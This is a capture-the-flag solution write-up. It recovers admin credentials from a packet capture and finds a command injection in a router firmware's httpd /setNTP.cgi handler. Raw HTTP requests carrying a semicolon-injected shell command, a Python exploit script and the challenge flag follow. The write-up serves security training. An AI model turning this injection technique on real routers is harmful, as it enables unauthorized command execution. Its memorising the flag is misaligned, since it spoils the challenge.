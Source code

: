 # Solution Write Up for 'Reachable Fruit'
# Expected Behavior
## Provided Files
### `firmware.bin`
![firmware.bin](./assets/images/binwalk_firmware.png)

### `traffic.pcap`
![traffic.pcap](./assets/images/wireshark_traffic.png)

## Web Server
![management_console](./assets/images/management_console_login.png)

# Solution

1. Download [firmware.bin](./challenge/firmware.bin) and [traffic.pcap](./challenge/traffic.pcap).
2. Open `traffic.pcap` using Wireshark and notice that the majority of the packets are HTTP.
3. Follow one of the TCP streams which includes a POST request.

![Figure_1](./assets/images/tcp_stream_51.png)

**Figure 1**: Result of following TCP stream 51 in Wireshark.

4. Take note of the following information:
    - `POST /setWMM.cgi HTTP/1.1` indicates that the common gateway interface style of webpage interactivity is in use.
    - `Authorization: Basic YWRtaW46OF5oaiV1XjQwRDhiOCVseDQ3bjA=` request header, which gives the credentials `admin:8^hj%u^40D8b8%lx47n0%`.
    - `Content-Type: application/x-www-form-urlencoded`, which indicates that the request body uses percent encoding.
        - This is also evident in the request body `page=%2Fstation%2Fqos.asp&{...}`.
    - `Server: httpd` response header, which hints that the vuln is located in the `httpd` binary.
5. Extract the firmware with `binwalk -er1 firmware.bin`.
    5a. If `binwalk` throws an error due to the `-1`, just omit it. This is not needed with some versions of `binwalk`.
    5b. If you have not already done so, `sasquatch` is needed to unpack old squashfs filesystems. It can be installed with:
    ```
    git clone https://github.com/devttys0/sasquatch.git && \
    cd sasquatch && \
    sed -i 's/apt-get install/apt-get -y install/' build.sh && \
    CFLAGS=-fcommon ./build.sh && \
    which sasquatch
    ```
6. Take note of:
    - The location of the `httpd` binary (`_firmware.bin.extracted/squashfs-root/usr/sbin/httpd`)
    - The presence (and location) of the dummy `/www/flag` file.
        - NOTE: Simply GETting the `/flag` path from a browser with not yield the file's content.
7. Search for a vulnerability in `httpd` which will allow code execution using only static analysis. One way a vulnerability can be found:
    - Search for all uses of `system` where the argument string contains `%s`. This will produce 3 resutls:
        - `"date -s %s"`
        - `"date -s %s%s%s%s%s.%s"`
        - `"echo %s > /sys/class/net/br0/bridge/predefined_url"`
    - A little bit of working backwards shows that only easily injectable format string is `"date -s %s%s%s%s%s.%s"`; the values that are substitued for the `%s` tokens come from URL arguments via `get_cgi`.

<!-- 0040d25c          sprintf(&var_10c, "date -s %s", $s0_1)
0040d274          system(&var_10c)

0040e0b4              sprintf(&var_124, "date -s %s%s%s%s%s.%s", $s5_1, $s4_1, $s1_1, $s0_1, $s6_1, $v0_14, &_gp)
0040e0d0              printf("cmd_sys=%s \n", &var_124)
0040e0e8              system(&var_124)

0041fae8              sprintf(&var_124, "echo %s > /sys/class/net/br0/bri…", $v0_25)
0041fb04              printf("cmd_sys=%s \n", &var_124)
0041fb1c              system(&var_124) -->

![Figure_2](./assets/images/do_setNTP.png)

**Figure 2**: Binanry Ninja's High Level IL view of the vulnerable funciton described in step 7. From the calls to `__assert`, it can be assumed that the function name is `do_setNTP`.

<!-- 8. Develop an exploit for this vulnerability. This can be as simple as a POST request. -->
8. Develop and exploit for this vulnerability. This can be as simple as a POST request.
    - The `/setNTP.cgi` endpoint deduced via `grep -i 'ntp' usr/sbin/httpd`.
    - The `Basic YWRtaW46OF5oaiV1XjQwRDhiOCVseDQ3bjA=` authorization header from the packet capture.
    - The `timeTag=manual` key-value pair from the logic of `do_setNTP`.
    - The `manual_sec_select` URL parameter (among options) from the calls to `get_cgi`.
    - The need for percent-encoding given the URL parameter context.
    - A semicolon must be prepended (and appended, depending which URL parameter is chosen) to the injected command to truncate the `date -s ` command.
```http
POST /setNTP.cgi HTTP/1.0
Host: localhost
Authorization: Basic YWRtaW46OF5oaiV1XjQwRDhiOCVseDQ3bjA=

timeTag=manual&manual_sec_select=<PERCENT_ENCODED_COMMAND_WITH_SEMICOLON_PREFIX>
```

9. Figure out a command which will make the contend of the flag file available via a GET request.
    
    0. As mentioned, `/www/flag` cannot be retrieved directly via a GET request.
    1. But other file types are clearly available. The extentions of files in `/www` can be shown with `find www -type f | cut -d '.' -f 2 | sort -u`.
    2. A whitelist of file extensions is present. `grep`ping for these file extensions shows a common result: `**.<EXTENTION>`
    3. The following command shows which file extensions are allowed: `strings usr/sbin/httpd | grep '\*\*\.'`.
    4. In order to make the flag content available, its file extention must change. Injecting the command `cp /www/flag /www/flag.css` will accomplish this.

<!-- ```bash
find www -type f | cut -d '.' -f 2 | sort -u
asp
css
gif
html
js
txt
strings usr/sbin/httpd | grep '\*\*\.'
**.asp*
**.htm
**.html
**.css
**.gif
**.jpg
**.png
**.ico
**.js*
``` -->

10. Percent-encode `;cp /www/flag /www/flag.css` to complete the expoit.
    - The result will be `%3Bcp%20/www/flag%20/www/flag.css`

11. Run the exploit.
```http
POST /setNTP.cgi HTTP/1.0
Host: localhost
Authorization: Basic YWRtaW46OF5oaiV1XjQwRDhiOCVseDQ3bjA=

timeTag=manual&manual_sec_select=%3Bcp%20/www/flag%20/www/flag.css
```

12. Get the flag!
```http
GET /flag.css HTTP/1.0
Host: localhost
Authorization: Basic YWRtaW46OF5oaiV1XjQwRDhiOCVseDQ3bjA=
```

## Supporting solution info
[//]: <> (Add your full solution scripts as files if applicable or use this section here to add a code block.)
```python
#!/usr/bin/env python3
'''
Solution script
'''
from urllib.parse import quote
from requests import get, post
from requests.auth import HTTPBasicAuth

VULNERABLE_ENDPOINT = 'http://localhost/setNTP.cgi'
HTTP_USER = 'admin'
HTTP_PASSWORD = '8^hj%u^40D8b8%lx47n0'
COPY_COMMAND = 'cp /www/flag /www/flag.css'
FLAG_URL = 'http://localhost/flag.css'

def copy_flag_to_www() -> None:
    '''
    Exploits command injection to make flag accessible.
    '''
    _ = post(
        VULNERABLE_ENDPOINT,
        data='timeTag=manual&manual_sec_select=' + quote(f';{COPY_COMMAND}'),
        auth=HTTPBasicAuth(HTTP_USER, HTTP_PASSWORD)
    )

def show_flag() -> None:
    '''
    Prints flag to standard out
    '''
    response = get(FLAG_URL, auth=HTTPBasicAuth(HTTP_USER, HTTP_PASSWORD))
    print(response.text)

if __name__ == '__main__':
    # NOTE: first connection can get refused for some reason.
    try:
        _ = get('http://localhost')
    except ConnectionError:
        pass

    copy_flag_to_www()
    show_flag()
```
### Usage: ```python3 ./solution.py```

### Expected output:

```ARC{7h3n_y0ur_3y35_5h411_b3_0p3n3d}```

[//]: <> (Give an explination of the code and how to run it here. Make sure to explain the correct output so that anyone following allong can verify that it is running correctly.)


# Flag
[//]: <> (Add the flag below)
**ARC{7h3n_y0ur_3y35_5h411_b3_0p3n3d}**
